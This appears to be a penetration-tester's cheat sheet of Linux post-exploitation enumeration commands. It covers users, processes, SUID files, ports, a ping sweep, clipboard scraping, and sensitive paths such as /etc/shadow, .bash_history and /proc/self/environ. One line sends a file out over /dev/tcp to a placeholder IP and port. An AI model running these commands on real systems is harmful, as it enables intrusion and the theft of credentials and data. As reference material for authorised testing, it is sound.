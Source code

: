 # Commands
## User Information
```bash
# User info
id || (whoami && groups) 2>/dev/null
# Current PGP keys
gpg --list-keys 2>/dev/null
# List superusers
awk -F: '($3 == "0") {print}' /etc/passwd
# Logged in users
w
```


## System Information
```bash
# Running processes
ps aux

# Environment variables
(env || set) 2>/dev/null

# Network topology
cat /proc/net/fib_trie

# Domain name
hostname

# OS info
/etc/os-release
```

## Interesting Files and DIRs
```bash
# Sort files by date
ls -ltrh

# Writeable folders
find / -writable -type d 2>/dev/null

# Find SUID files
find / -perm -4000 2>/dev/null
```

## Network
```bash
# Open ports
(netstat -punta || ss --ntpu)
```

## Misc
```bash
# Human readable JSON data (jq)
cat <json_file> | jq

# Download file from shell session
cat <file> /dev/tcp/<ip>/<port>

# PING SWEEP - If one suspects that there are other machines on the network --- Assuming that current machine is in a VM or a container
for i in {1..254}; do (ping -c 1 10.10.10.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

# Clipboard
Look for anything interesting in the clipboard

```bash

if [ `which xclip 2>/dev/null` ]; then
		echo "Highlighted text: "`xclip -o 2>/dev/null`

	elif [ `which xsel 2>/dev/null` ]; then
		echo "Clipboard: "`xsel -ob 2>/dev/null`
		echo "Highlighted text: "`xsel -o 2>/dev/null`
	
	else echo "Not found xsel and xclip"
fi
```

# Directories

##  Place For Unusual Files
```bash
/tmp
/dev/shm
```

sd
## Installed Software
```bash
/opt
```
## Changing Files
```bash
/var
/var/log
/var/www/html
```

## Web Related
```bash
/etc/apache2
/etc/httpd
/etc/nginx
```
## System and User Related
```bash
/etc/hosts
/etc/issue
/etc/motd
/etc/passwd
/etc/group
/etc/resolv.conf
/etc/shadow
```
## Own User Interesting Files
```bash
/home/USERNAME/.bash_history
/home/USERNAME/.profile
```
## System Information
```bash
/proc/sched_debug
/proc/net/fib_trie
/proc/version
/proc/self/environ
/proc/self/cmdline
```
